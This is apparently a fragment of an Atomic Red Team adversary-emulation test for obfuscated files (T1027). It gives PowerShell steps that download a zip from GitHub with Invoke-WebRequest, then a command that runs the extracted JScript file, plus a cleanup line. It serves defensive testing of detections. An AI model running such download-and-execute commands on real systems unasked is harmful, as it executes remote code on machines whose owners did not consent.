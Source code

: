 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_path | url to download JScript file | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1027/bin/t1027js.zip|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\T1027js.js"
```

#### Cleanup Commands:
```cmd
taskkill /f /im calculator.exe >nul 2>nul
```



#### Dependencies:  Run with `powershell`!
##### Description: T1027.js must exist on disk at PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\T1027js.js
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\T1027js.js") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "#{url_path}" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\T1027js.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\T1027js.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027js.zip\" -Force
```




<br/>
